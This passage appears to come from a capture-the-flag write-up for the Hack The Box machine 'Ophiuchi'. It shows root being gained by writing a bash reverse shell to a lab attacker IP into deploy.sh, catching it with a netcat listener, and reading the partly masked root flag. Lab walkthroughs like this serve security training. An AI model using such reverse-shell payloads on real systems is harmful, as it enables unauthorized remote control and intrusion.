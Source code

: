 ## Obtaining Arbitrary Code Execution

The code in `deploy.sh` can be anything we want. I will send a reverse shell to my attacker machine, but there are many other options that can be used in this scenario. 

```bash
#!/usr/bin/sh

bash -c 'bash -i >& /dev/tcp/10.10.14.16/5555 0>&1'
```

```default
admin@ophiuchi:/tmp$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
```

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.227] 34056
root@ophiuchi:/tmp# 
```

## Root Flag

```default
root@ophiuchi:~# id && hostname && cat root.txt && ifconfig
id && hostname && cat root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
ophiuchi
1fedc**********************11be5
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.227  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:ce6a  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:ce6a  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:ce:6a  txqueuelen 1000  (Ethernet)
        RX packets 6230  bytes 508991 (508.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2916  bytes 3487020 (3.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24292  bytes 1735440 (1.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24292  bytes 1735440 (1.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@ophiuchi:~# 
```

